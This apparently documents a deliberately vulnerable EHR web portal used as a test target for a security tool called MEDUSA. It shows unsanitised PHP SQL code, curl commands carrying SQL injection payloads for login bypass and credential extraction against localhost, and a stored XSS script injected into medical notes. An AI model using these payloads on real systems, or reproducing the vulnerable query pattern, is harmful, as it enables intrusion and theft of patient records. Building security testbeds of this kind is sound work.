 
## Detailed Vulnerability Descriptions

### 1. EHR Web Portal (`ehr-webapp`)

#### 1.1 SQL Injection (Critical)
**Location:** `index.php`, `search.php`, `dashboard.php`

**Description:** User input is directly concatenated into SQL queries without sanitization or prepared statements.

**Vulnerable Code:**
```php
$query = "SELECT * FROM users WHERE username = '$username' AND password = '$password'";
```

**Exploitation:**
```bash
# Bypass authentication
curl -X POST http://localhost:8080/index.php \
  -d "username=admin' OR '1'='1' --" \
  -d "password=anything"

# Extract data
curl "http://localhost:8080/search.php?search=' UNION SELECT id,username,password,email,role,NULL FROM users --"
```

**MEDUSA Test Cases:**
- Authenticate bypass via SQLi
- Extract user credentials from database
- Enumerate database schema
- Modify data via UPDATE/INSERT injection

**Impact:** Complete database compromise, authentication bypass, data exfiltration

---

#### 1.2 Cross-Site Scripting (XSS)
**Location:** `dashboard.php` (medical notes field)

**Description:** Patient medical notes are rendered without sanitization, allowing JavaScript injection.

**Exploitation:**
```sql
-- Via SQL injection, insert XSS payload
UPDATE patients SET medical_notes = '<script>alert(document.cookie)</script>' WHERE id = 1;
```

**MEDUSA Test Cases:**
- Inject JavaScript to steal session cookies
- Create persistent XSS in medical records
- Exfiltrate data via XMLHttpRequest

**Impact:** Session hijacking, credential theft, malware distribution

---